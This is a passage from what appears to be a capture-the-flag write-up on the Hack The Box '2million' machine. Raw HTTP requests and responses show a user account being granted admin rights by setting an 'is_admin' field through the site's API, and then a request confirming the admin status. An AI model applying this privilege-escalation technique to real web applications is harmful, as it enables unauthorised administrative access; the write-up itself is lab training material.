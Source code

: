   ```
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:46:37 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 41
  
  {"id":22,"username":"bimbo","is_admin":1}
  ```

- GOTEM COACH! I should be admin now, but let's confirm it real quick and move to gaining access.

  ```
  Request

  GET /api/v1/admin/auth HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 50
  
  {
  	"email":"bimbo@test.com",
  	"is_admin":1
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:47:49 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 16
  
  {"message":true}
  ```

---